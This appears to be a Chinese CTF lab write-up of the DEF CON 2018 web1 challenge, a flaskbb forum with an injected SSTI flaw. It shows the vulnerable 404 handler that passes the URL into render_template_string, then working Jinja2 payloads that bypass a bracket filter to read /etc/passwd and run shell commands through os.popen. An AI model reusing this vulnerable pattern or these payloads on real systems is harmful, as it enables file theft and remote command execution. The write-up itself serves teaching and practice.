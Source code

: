 ## 0x00  环境编译
```
docker-compose build
docker-compose up -d
```
该题是2018年Defcon对抗赛的web1，该网站用的是flaskbb搭建的，本身没有存在漏洞，开发人员通过修改了源代码造成了SSTI漏洞，现在凡是涉及Flask的安全问题几乎都会重点提及SSTI

漏洞源码在flasks/app.py文件中的375行开始

```
   375	    @app.errorhandler(404)
   376	    def page_not_found(error):
   377	        url = request.url
   378	        if '[' in url or ']' in url:
   379	            return "<h1>url error!</h1>"
   380
   381	        return render_template_string("<h1>URL %s  not found</h1><br/><p>Some programmers developed a forum program based on the foundation of flaskbb , but it cause some defects and bugs. Try to find it.</p><p>Notice that you should access the website with host \"<b>flaskweb.com</b>\" , please modify your hosts file or ADD this to HTTP header.</p>" % url), 404
```


## 0x01 漏洞利用

通过之前的代码显示，过滤了中括号，上网搜索了一下找到了绕过的payload

文件读取payload
```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}
```

![](README/luffy1.png)


命令执行payload
```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()}}
```

![](README/luffy2.png)





##  0x02 链接

[SSTI过滤绕过](http://p0sec.net/index.php/archives/120/)

[SSTI攻击分析](https://hellohxk.com/blog/ssti/)

[Flask jinja2模板注入思路总结](http://www.ee50.com/ld/940.html)



